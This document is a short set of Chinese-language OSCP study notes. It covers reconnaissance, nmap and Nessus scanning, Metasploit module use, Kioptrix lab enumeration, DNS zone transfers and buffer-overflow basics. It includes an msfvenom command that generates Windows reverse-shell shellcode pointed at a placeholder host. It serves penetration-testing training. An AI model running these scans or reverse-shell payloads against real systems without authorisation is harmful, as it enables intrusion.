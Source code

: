 # OSCP笔记  

## 第一件事情：改root密码  
root@kali:/# passwd  


## 常用命令  
pwd, man, ls, cd, mkdir, rmdir, cp, mv, locate, adduser, su, sudo, echo, cat, vim, chmod, ifconfig, ping  


## 常用服务  
apache2, ssh, postgresql

service apache2 start  
systemctl enable apache2  


## 信息收集  
Google (inurl:cnn.com, filetype:pdf, intext, .etc)  
Exploit-DB / Google Hacking DB  
shodan  
WHOIS  
Netcraft  
theharvester  


## 扫描  
TCP vs UDP  

### Nmap  
> 选项：-vv详细，-Pn不论是否存活一律扫描，-A综合扫描，-sS SYN扫描，-sU UDP扫描，-T4扫描速度（1慢，5快），-p指定端口，-p-所有端口，-oN输出格式，--script使用脚本扫描  

nmap -vv -Pn -A -sS -T4 -p- -oN /root/tcpscan.txt 192.168.1.101                  # TCP SYN扫描      
nmap -vv -Pn -A -sU -T4 -top-ports 200 -oN /root/udpscan.txt 192.168.1.101          # UDP扫描  
nmap -vv -p 137 --script=all 192.168.1.101                                    # 对137端口跑脚本  

### Nessus  
dpkg -i <Nessus安装包\>.deb     # 安装  
/etc/init.d/nessusd start     # 启动  

### Metasploit  
msfconsole     # 启动msf  
msf> search portscan        # 查找模块  
msf> use auxilary/...       # 使用  
msf> show options           # 查看模块信息  
msf> set ports 1-65535      # 设置参数  
msf> set rhosts 192.168.15.2  
msf> set threads 10  
msf> exploit                # 开始  



## Kioptrix Level 1  
### SSH信息枚举（SSH版本）  
查看版本，然后去`searchsploit`或exploit-db找漏洞  

### HTTP信息枚举（Web Server版本，目录，文件等）  
1. 查看网页源码  
2. 查看HTTP通信流量  
3. 目录扫描（dirbuster, nikto，御剑）  

字典：github: dirbuster wordlist  

### SMB信息枚举（OS版本，SMB版本，$IPC等）  
enum4linux  
msf> use auxiliary/scanner/smb/smb_version  
nbtscan  
smbclient  

### DNS枚举  
host [-t [ns|mx]] zonetransfer.me  
host -l <url> <ns>     # DNS Zone Transfer  
dnsrecon  
dnsenum  



## 栈溢出（Buffer Overflow）

        |--------|      |---------|    
        |  Text  |      |   ESP   |
        |--------|      |---------|
        |  Data  |      |  Buffer | 
        |--------|      |    ↓    |
        |  Heap  |      |         |
        |   ↓    |   /  |---------|
        |        |  /   |   EBP   |         
        |--------| /    |---------|
        |        |      |   EIP   |
        |   ↑    |      |---------|
        | Stack  |      |   arg2  |
        |--------| \    |---------|
        | Kernel |  \   |   arg1  |
        |--------|   \  |---------|

查找坏字符/不可用字符  

生成shellcode：  
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4444 EXITFUNC=thread -a x86 --platform windows -e x86/shikata_ga_nai -f python  



## 客户端攻击  

通过PDF、浏览器、Java Applet漏洞攻击，结合社工工具setool  


